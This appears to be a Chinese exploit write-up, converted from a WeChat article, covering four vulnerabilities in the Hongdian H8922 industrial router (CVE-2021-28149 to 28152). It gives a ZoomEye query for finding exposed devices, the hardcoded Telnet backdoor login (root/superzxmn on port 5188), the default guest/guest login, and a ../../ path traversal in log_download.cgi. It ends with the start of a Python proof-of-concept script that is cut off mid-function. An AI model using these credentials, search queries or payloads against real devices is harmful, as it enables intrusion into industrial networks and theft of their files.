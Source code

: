 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/7lJkAb6M0nctv415juYPww)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

```
宏电 H8922 后台存在管理员信息泄露漏洞，攻击者使用任意账号登录后访问特殊的Url即可获取所有用户的账号和密码
宏电 H8922 后台中的网络测试模块中存在命令执行漏洞。通过命令拼接执行任意命令
宏电 H8922 后台存在任意文件读取漏洞，低权限用户通过漏洞可以获取任意文件内容
宏电 H8922 Telnet存在硬编码的账号密码 且默认开放 5188端口连接，可以以Root身份获取权限
CVE-2021-28149 ~ 28152
```

**二:  漏洞影响🐇**

**宏电 H8922**

**三:  ZoomEy🐋**

```
ZoomEy  app:"Hongdian H8922 Industrial Router
```

 ****四:  宏电 H8922 Telnet 后门漏洞🦉****

**使用 Telnet 连接目标 5188 端口，账号密码为 **root/superzxmn****

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4IS0jaIjSCjKb2dDiabMpyhwuMIOI7PPib7tunvibDrwmXBdKM8DyJZFJcrEbicdZpB6Zl0KjjENC38Q/640?wx_fmt=png)

**四:  宏电 H8922 后台任意文件读取漏洞 🦉**

**登录后台 (存在访客用户默认账号密码 guest/guest)**

**漏洞存在于 log_download.cgi 文件中**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4IS0jaIjSCjKb2dDiabMpyhZWdlicrpLs5QJL8LyicvYJMquAb7yp5wMcvHnBSpfRJ1v7gn05BGBeWg/640?wx_fmt=png)

**使用 type 参数读取文件并下载日志给用户，使用 **../../** 可以跳转根目录读取任意文件**  

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4IS0jaIjSCjKb2dDiabMpyhicrDkwfGicQlrMib2FCZG14fyRJxCFDwkBdd1okA6W3zRRK2G0KuL59Kw/640?wx_fmt=png)

```
import requests
import sys
import random
import re
from lxml import etree
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台任意文件读取漏洞 CVE-2021-28152                 \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, filename):
    vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
    headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
```